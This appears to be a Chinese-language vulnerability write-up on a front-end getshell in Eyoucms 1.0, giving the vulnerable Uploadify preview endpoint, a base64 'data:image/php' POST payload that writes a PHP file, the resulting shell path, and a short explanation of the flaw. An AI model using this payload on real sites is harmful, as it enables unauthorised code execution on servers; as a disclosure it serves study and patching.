 ```yaml
---
title: Eyoucms 1.0 前台getshell
id: zhfly2916
---
```


# Eyoucms 1.0 前台getshell

## 一、漏洞简介

官网：http://www.eyoucms.com/download/
Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

## 二、漏洞影响

## 三、复现过程

老样子：先讲如何利用

```
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview `构造: <?php phpinfo;` 
```

![image](../img/7978445a5d92b706f233d6fd3375a930.png)

```
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw== 
```

![image](../img/3a80a5dd2a7640989aa2d16c0aee02ea.png)

Shell: http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![image](../img/0785e398fa077c95cb0cb3aa66611ad5.png)

![image](../img/75cb99cdf9868ad96f977648b17b3cb9.png)

### 原理分析

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php
漏洞函数：preview()

![image](../img/70c7a79ef0f1dbac9771e402db57c791.png)

![image](../img/3e8f9a403b741846aba94538f7b11fc3.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？
带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的 表示data:image/ 居然还可以不是图片？
好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/ 只能是图片。

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh